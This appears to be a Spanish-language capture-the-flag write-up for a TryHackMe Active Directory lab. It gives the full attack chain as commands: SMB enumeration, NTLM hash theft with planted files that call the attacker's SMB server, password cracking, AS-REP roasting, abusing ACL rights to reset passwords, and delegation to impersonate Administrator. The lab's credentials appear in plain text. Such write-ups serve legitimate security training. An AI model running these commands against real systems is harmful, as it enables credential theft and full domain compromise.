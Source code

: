 https://tryhackme.com/r/room/resetui
# Fase de reconocimiento
Windows
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.252.53
```
![[Pasted image 20240524011732.png]]
## Reconocimiento de servicios
```
nmap -sCV -p53,135,139,445,636,3389,5985,49671,49673,49676,49702 10.10.252.53
```
![[Pasted image 20240524012100.png]]## 
## Enumeración SMB
```
crackmapexec smb 10.10.252.53
```
![[Pasted image 20240524012545.png]]
```
crackmapexec smb 10.10.252.53 --shares -u 'anonymous' -p ''
```
![[Pasted image 20240524014000.png]]
```
nmap --script "rdp-enum-encryption or rdp-ntlm-info" -p3389 -T4 10.10.252.53
```
![[Pasted image 20240524013254.png]]
Añadir DNS a /etc/host
# Fase de ataque
## SMB
Conectarse a el Share Data
```
smbclient -U 'anonymous' //10.10.252.53/Data
```
![[Pasted image 20240524014641.png]]
Montar
```
mount -t cifs "//10.10.252.53/Data" /mnt/montura
```
Como tenemos permisos de Escritura y Lectura
Robamos el NTLM 
1. Copiamos una herramienta para crear un archivo a enviar al servidor
```
git clone https://github.com/Greenwolf/ntlm_theft
```
2. Ejecutamos
```
python3 ntlm_theft.py -g all -s 10.9.0.11 -f test
```
Ejemplo CSF
```
[Shell]
Command=2
IconFile=\\10.9.0.11\smbFolder\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```
3. Copiamos los archivos al servidor
4. Nos ponemos en escucha
```
impacket-smbserver smbFolder $(pwd) -smb2support
```
![[Pasted image 20240524030845.png]]
## Crackear NTLM
Copiamos el hash
Crack
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20240524031138.png]]
Comprobar credenciales
```
crackmapexec smb 10.10.252.53 -u 'AUTOMATE' -p 'Passw0rd1'
```
![[Pasted image 20240524031935.png]]
## Conectarse con credenciales
```
evil-winrm -i 10.10.252.53 -u 'AUTOMATE' -p 'Passw0rd1'
```
[-] ==pwned!==
# Privilege Escalation
Nos conectamos
```
rpcclient -U "AUTOMATE%Passw0rd1" 10.10.252.53
```
Enumeramos usuarios
```
	enumdomusers
```
![[Pasted image 20240524033814.png]]
Enumeramos usuarios Administradores
```
	enumdomgroups
	querygroupmem 0x200
	queryuser 0x45b
```
![[Pasted image 20240524034526.png]]
Encontramos 2 usuarios más aparte del Administrador
## Bloodhound
Se puede usar está herramienta para ver los privilegios de todos los usuarios del AD
1. Instalar Herramienta
```
apt install neo4j bloodhound
```
2. Para recolectar en la maquina victima nos descargamos un Data Collector
```
git clone https://github.com/dirkjanm/BloodHound.py
```
3. Ejecutamos para recolectar datos
```
python3 bloodhound.py -ns 10.10.252.53 --dns-tcp -d THM.CORP -u 'AUTOMATE' -p 'Passw0rd1' -c All --zip
```
4. Ejecutamos ne4j y BloodHound. Subimos el zip.
```
neo4j console
bloodhound
```
Podemos Observar que hay 3 usuarios con AS-REP Roastable Users, por lo que podemos ponseguir un ticket 
![[Pasted image 20240524164336.png]]
## AS-REP Roastable Users
Conseguir TGT de los usuarios
```
impacket-GetNPUsers -request -format john -no-pass thm.corp/ERNESTO_SILVA
impacket-GetNPUsers -request -format john -no-pass thm.corp/TABATHA_BRITT
impacket-GetNPUsers -request -format john -no-pass thm.corp/LEANN_LONG
```
![[Pasted image 20240524165503.png]]
Crack
```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
![[Pasted image 20240524165656.png]]
Encontramos 1 contraeña de TABATHA
Comprobar credenciales
```
crackmapexec smb 10.10.252.53 -u 'TABATHA_BRITT' -p 'marlboro(1985)'
```

## BloodHound
Encontramos un PATH para conseguir un usuario con más privielgios
Desde Transitive Object Control
![[Pasted image 20240524171056.png]]
El primer usuario podemos tenemos privilegios GenericAll sobre él. Le cambiamos la contraseña.
```
net rpc password "SHAWNA_BRAY" "pass123@" -U "THM.CORP"/"TABATHA_BRITT"%"marlboro(1985)" -S "haystack.thm.corp"
```
El segundo tenemos privilegios ForceChangePassword sobre él. Le cambiamos la contraseña.
```
net rpc password "CRUZ_HALL" "pass123@" -U "THM.CORP"/"SHAWNA_BRAY"%"pass123@" -S "haystack.thm.corp"
```
El último tenemos privilegios GenericWrite sobre él. Le cambiamos la contraseña.
```
net rpc password "DARLA_WINTERS" "pass123@" -U "THM.CORP"/"CRUZ_HALL"%"pass123@" -S "haystack.thm.corp"
```
Comprobar credenciales
```
crackmapexec smb 10.10.252.53 -u 'DARLA_WINTERS' -p 'pass123@'
```
![[Pasted image 20240524171816.png]]

Vemos que esté usuario tiene privilegios AllowdToDelegate sobre el controlador del AD.
![[Pasted image 20240524172302.png]]
Esto nos permite impersonar al Administrador y conseguir un GoldenTicket para acceder.
## TGT (Ticket Granting Ticket)
Podemos impersonar al Administrador por el Servicio CIFS 
```
impacket-getST -spn "cifs/haystack.thm.corp" -impersonate "Administrator" "thm.corp/DARLA_WINTERS:pass123@"
```
![[Pasted image 20240524173104.png]]
```
export KRB5CCNAME=Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
```
```
impacket-wmiexec -k -no-pass Administrator@haystack.thm.corp
```
![[Pasted image 20240524173116.png]]
[+] ==pwned!==